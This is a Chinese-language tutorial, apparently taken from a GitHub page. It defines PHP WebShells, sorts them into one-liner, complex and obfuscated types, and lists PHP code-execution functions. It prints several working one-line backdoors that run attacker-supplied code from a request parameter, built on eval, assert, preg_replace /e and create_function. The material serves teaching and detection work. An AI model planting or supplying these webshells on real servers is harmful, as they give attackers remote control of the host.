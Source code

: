

# Webshell

### 1. 什么是 WebShell？

WebShell 是一种以网页文件形式存在的命令执行环境，通常以 ASP、PHP、JSP 或 CGI 等动态脚本语言编写。攻击者通过 WebShell 获得服务器的控制权限，可以执行任意命令、读取文件、上传恶意文件等。它通常被称为网站的“后门”，用于维持对受感染服务器的长期控制。

### 2. WebShell 的分类

WebShell 通常分为以下几类：

1. **一句话 WebShell**：非常短小的恶意代码，通常只包含一行，功能是执行任意命令或代码。
2. **复杂 WebShell**：带有文件管理、数据库管理等功能的恶意脚本，通常以多行代码形式存在，功能强大。
3. **隐蔽型 WebShell**：通过各种技术手段对代码进行混淆或加密，以规避安全检测工具的发现。

### 3. 一句话 WebShell 示例

一句话 WebShell 通常非常简短，仅包含执行代码的核心功能。

#### PHP 一句话 WebShell 示例

```php
<?php eval($_REQUEST["cmd"]); ?>
```

- **解释**：`eval()` 函数将 `$_REQUEST["cmd"]` 的内容作为 PHP 代码执行，攻击者通过请求传递命令（如 `cmd=phpinfo()`），服务器执行该命令。

```php
<?php assert($_REQUEST['cmd']); ?>
```

- **解释**：`assert()` 函数将 `$_REQUEST["cmd"]` 的内容当作 PHP 代码执行，功能类似于 `eval()`。

### 4. WebShell 代码执行函数

在 PHP 中，有许多函数可以执行代码，这些函数通常被用于编写 WebShell。

#### 常见代码执行函数：

- **`eval()`**：执行字符串形式的 PHP 代码。
- **`assert()`**：与 `eval()` 类似，执行字符串形式的 PHP 代码。
- **`preg_replace()`**：带 `/e` 修饰符的情况下，可以将替换内容作为 PHP 代码执行。
- **`create_function()`**：创建匿名函数，并可以执行传递的代码。
- **`system()`、`exec()`、`shell_exec()`**：直接在服务器上执行系统命令。

```php
// 使用 eval() 执行任意代码
<?php eval($_REQUEST['cmd']); ?>

// 使用 assert() 执行任意代码
<?php assert($_REQUEST['cmd']); ?>

// 使用 preg_replace() 和 /e 修饰符
<?php preg_replace("/abc/e", $_REQUEST['cmd'], "abc"); ?>

// 使用 create_function() 创建并执行匿名函数
<?php 
$func = create_function('', $_REQUEST['cmd']);
$func();
?>
```

